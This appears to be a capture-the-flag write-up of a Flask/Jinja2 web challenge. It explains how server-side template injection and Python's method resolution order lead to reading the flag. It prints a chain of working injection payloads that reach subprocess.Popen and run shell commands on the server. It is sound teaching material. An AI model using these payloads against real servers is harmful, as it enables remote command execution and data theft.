





# Templated
In this web challenge, we are given a website and expected to find the flag by exploiting a simple mistake.



# TL;DR
- The website lets user to provide a Jinja template from parameters. With this vulnerability (Server side template injection, or SSTI), we can acquire the flag [1].
- To get the flag, you need to know about `Python's Method Resolution Order (MRO)`.


# How to get the flag?
When the challenge instance is launched, I got a website that says it is under construction. We can see that it is powered by `Flask/Jinja2`. Perhaps it is running python?


When I check the returned Request and Response headers, we can clearly say that the server is running `Werkzeug/1.0.1, Python 3.9.0`. I started to google about Werkzeug/1.0.1 vulnerabilities. But, I was only be able to find out vulnerabilities in older versions of Werkzeug [2].


I attempted to use some enumeration tools, such as `nikto`, `gobuster`, to scan vulnerabilities and existing directories, but I did not get anything, as the website was returning 200 response to every request.

Next, I googled about `Flask/Jinja2` vulnerabilities. A few matches from top results led me to find out a possibility of Server Side Template Injection vulnerability in Jinja2 [1]. In [1] the vulnerability example was based on a parameter. Because, I could not get any result from enumeration tools, I just tried to pass a simple jinja2 template, `{{1}}`, to the index url of the challenge.

Do you see what just happened? User provided jinja template is processed by the server, just like the exploit description from [1]. Okay but, can I execute some commands and get get the flag?


I immediately entered some bash commands to the url, like `{{ls}}`. Ofcourse, it did not work. Because, the process is running python interpreter. I went back again to carefully read the exploit description and the concepts about Python's method resolution order. Here are some references to better understand this [3,4]. The important part for me was that given a class I could use `mro` to get any class or modules from <class 'object'>.

I executed the following URLs until I got python modules like `os` or `subprocess`:
- integer class: `/{{ 1.__class__ }}`
- base classes of integer class `/{{ 1.__class__.__mro__}}`
- object class `/{{ 1.__class__.__mro__[1]}}`
- pointer to the method of object class's subclasses `/{{ 1.__class__.__mro__[1].__subclasses__ }}`
- List of subclasses (here I saw `subprocess.Popen`)  `/{{ 1.__class__.__mro__[1].__subclasses__() }}`
- Subprocess class (I found subprocess class's index by trial and error): `/{{ 1.__class__.__mro__[1].__subclasses__()[414] }}`
- Execute ls to find where is flag (it was in current working directory, *flag.txt*): `/{{ 1.__class__.__mro__[1].__subclasses__()[414]('ls',shell=True, stdout=-1).communicate()[0] }}`

Finally, to get the flag I sent a request with the following jinja template:
```
http://URL/{{ 1.__class__.__mro__[1].__subclasses__()[414]('cat flag.txt',shell=True, stdout=-1).communicate()[0] }}
```
And we got the flag.


# References
- [1] Jinja2 2.10 - 'from_string' Server Side Template Injection
[https://www.exploit-db.com/exploits/46386](https://www.exploit-db.com/exploits/46386)
- [2] [werkzeug vulnerabilities](https://snyk.io/vuln/pip:werkzeug)
- [3] [https://www.python.org/download/releases/2.3/mro/](https://www.python.org/download/releases/2.3/mro/)
- [4] [https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/](https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/)